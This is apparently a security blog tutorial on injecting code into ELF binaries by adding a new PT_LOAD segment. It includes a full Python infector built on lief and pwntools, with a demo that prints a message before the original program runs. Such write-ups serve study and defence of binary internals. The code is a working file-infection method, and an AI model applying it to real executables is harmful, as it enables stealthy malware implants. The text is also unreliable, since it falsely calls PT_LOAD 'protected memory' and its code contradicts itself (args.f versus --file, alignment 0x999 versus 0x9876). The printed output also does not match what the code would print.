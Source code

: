 ```yaml
---
title: "PT_LOAD Injection with Python"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Pt_Load-Injection/logo.png
ribbon: red
description: "PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in..."
categories:
  - Binary Exploitation

---
```


PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in a special type of memory called "protected memory" or "PT_LOAD memory," which is typically reserved for the operating system and is not accessible to user programs or applications. The injected code is executed by tricking the operating system into thinking it is a legitimate part of the system.

In terms of the ELF (Executable and Linkable Format) structure, PT_LOAD Injection typically involves modifying the ELF header to include the injected code as a new PT_LOAD segment. This segment is then executed as part of the normal program execution process. By modifying the ELF header in this way, the injected code can be executed without raising any red flags or triggering security measures.

![](/assets/images/Binary-Exploitation/Pt_Load-Injection/20221215_202340_7105OS_04_5.jpg)

In Oracle Docs, PT_LOAD described like this:

> PT_LOAD
>
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from
> the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz),
> the extra
> bytes are defined to hold the value 0 and to follow the segment's
> initialized area. The file size can not be larger than the memory size.
> Loadable segment entries in the program header table appear in ascending
> order, sorted on the p_vaddr member.

Here is our injector we create a new PT_LOAD segment and patch the target file with new PT_LOAD segment. While patching the binary with our PT_LOAD segment we should add the old entrypoint to end of our malicious code. With adding old entrypoint, we will not affect the orijinal process but load our malicious code.

## Steps

1. [lief](https://lief-project.github.io/) helps us while parsing **binary **with very simple function: **lief.parse()**

    ```
        binary = lief.parse(args.f)
    ```
2. crate a payload and convert it to assembly code with pwn lib's **asm()** function, assing it to **malcode**
3. add the old entrypoint to the end of malicious code

    ```
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
    ```
4. create a new segment with lief's **ELF.Segment()** function and load the **malcode**

    ```
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
    ```

5. add this new segment to **binary**

    ```
        binary.add(segment)
    ```

6. traverse in binary segments and find our segment and set binary's header.enrtypoint to our segment's virtual address

    ```
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x999:
                binary.header.entrypoint = segment.virtual_address
                break
    ```

Full code:

```python
import lief
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description='PT_LOAD Injection PoC', conflict_handler='resolve')
    parser.add_argument('-file','--file', help="Target file", required = True)
    parser.add_argument('-out','--out', help="Output file")
    args = parser.parse_args()

    if len(sys.argv) < 2: 
        args.print_help()
        exit(0)
    try:
        binary = lief.parse(args.f)
  
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
  
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
        binary.add(segment)
  
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x9876:
                binary.header.entrypoint = segment.virtual_address
                break
  
        print("-> New EntryPoint: ", hex(binary.header.entrypoint))
  
        if args.out:
            binary.write(args.out)
        else:
            binary.write(args.file + "_edited")
    except:
        print("error occurred")
  
if __name__ == "__main__":
    main()
```





Output:

```
$   ./hello_world
Hello World!
$   python3 PT_LOAD_inj.py --file ./hello_world
Shellcode size:  53
-> New PT_LOAD segment added succesfully
$   chmod +x hello_world_edited
$   ./hello_world_edited
Everybody looks here!
Hello World!
```

Source code will be in my repo.

Sources:

[https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method) (Only image)

[https://tmpout.sh/1/3.html](https://tmpout.sh/1/3.html)

[https://tmpout.sh/1/10/](https://tmpout.sh/1/10/)

[https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html](https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html)

[http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html](http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html)
